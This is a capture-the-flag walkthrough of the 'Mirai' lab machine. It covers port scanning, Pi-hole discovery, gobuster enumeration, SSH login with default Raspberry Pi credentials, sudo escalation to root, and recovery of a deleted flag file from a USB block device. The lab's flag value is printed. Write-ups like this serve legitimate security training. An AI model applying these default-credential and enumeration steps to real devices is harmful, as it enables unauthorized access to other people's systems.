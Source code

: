 `Box: Linux`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Scan`](#`Initial%20Nmap%20Scan`)

### `Box Info`
```
Mirai demonstrates one of the fastest-growing attack vectors in modern times; improperly configured IoT devices. This attack vector is constantly on the rise as more and more IoT devices are being created and deployed around the globe, and is actively being exploited by a wide variety of botnets. Internal IoT devices are also being used for long-term persistence by malicious actors.
```

### `Initial Nmap Scan`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.48
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Website Blocked
|_http-server-header: lighttpd/1.4.35
1333/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
```

### `Web Enumeration`

The URL `http://10.10.10.48/` returns the blank page but looking at the Burp, There was one out of the box HTTP Response Header pops-up.
![](Mirai_Web0.png)
`X-Pi-Hole: A black hole for Internet advertisements` Alternatively you can change the `Host:` in the HTTP requests and send the request again to verify the HTTP response.

![](Mirai_Web3.png)

Just changing the `Host:` field in the HTTP request, reveals the url `http://pi.hole/admin/` for us. We can add it to host file. We can also perform the `dig` on it.
```
# dig @10.10.10.48 pi.hole

; <<>> DiG 9.19.21-1+b1-Debian <<>> @10.10.10.48 pi.hole
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 25470
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;pi.hole.                       IN      A

;; ANSWER SECTION:
pi.hole.                300     IN      A       192.168.204.129

;; Query time: 47 msec
;; SERVER: 10.10.10.48#53(10.10.10.48) (UDP)
;; WHEN: Thu Oct 10 02:42:12 EDT 2024
;; MSG SIZE  rcvd: 52
```

The `ANSWER SECTION:` reveals the IP `192.168.204.129`. I don't know what that IP is so I am going to add pi.hole in the host file.
###### `GoBuster on port 80`
```
# gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/versions             (Status: 200) [Size: 18]
Progress: 220560 / 220561 (100.00%)
```
![](Mirai_Web1.png)\\

I tried few passwords here but none of them was working.
`The Pi-hole® is a DNS sinkhole that protects your devices from unwanted content, without installing any client-side software.`
![](Mirai_Web2.png)
Looking on the Pi-Hole Forum, I found one of the creds. Although this wasn't working on the Web but it worked on SSH.
### `Initial SSH as Pi User & got User Flag`
```
# ssh pi@10.10.10.48
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707**************
```
Get the user  flag.

### `Privilege Escalation`

Running `sudo -l` gives me the following result.
```
pi@raspberrypi:/media/usbstick $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

It means I can run any command just providing the `sudo`. At this stage, I felt like I owned it but the story unfold in a manner that I didn't expected AT ALL! Just follow the command below

```
pi@raspberrypi:/media/usbstick $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Okay so the `root.txt` does not contain the flag. it says the original root.txt is lost. Let's go to `/media` and find out.

```
pi@raspberrypi:/media/usbstick $ ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found

pi@raspberrypi:/media/usbstick $ cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Okay so the files are gone. We will have to recover the file from this mounted USB stick drive.

### `Recover Deleted Flag (Files)`

When the file gets deleted, the structure of the filesystem removes the metadata for that file that includes the `timestamps`, `filename` and `pointer to where the raw file is on the disk`. The DELETE operation does not go to that point on the disk and do anything to cleanup the data such as writing the null character in a file content. That means there is a possibility that the content of the `root.txt` file is still present on the disk even though the filesystem no longer knows of a file by that name.

Looking at the following `lsblk` command output, We know that the file `/media/usbstick` belongs to the raw disk `sdb`.
```
i@raspberrypi:/media/usbstick $ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```

We know that our flag is 32 character long. We can use the following simple `grep` command to recover the flag.
```
pi@raspberrypi:/dev $ sudo grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
3d3e483143ff12ec505d026fa13e020b
```

`-a: Process a Binary file as if it was a text file`. 
`-P: Interpret the Pattern as the Perl Regular Expression`
`-o: Print only the matched parts of the matching lines with each such part as a separate output line.`

We got our flag. But There are other ways too. That is using `strings` Command.

```
pi@raspberrypi:/dev $ sudo strings /dev/sdb 
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

There we have a flag in the output. if you are unsure about building the grep pattern.

Get your root flag.

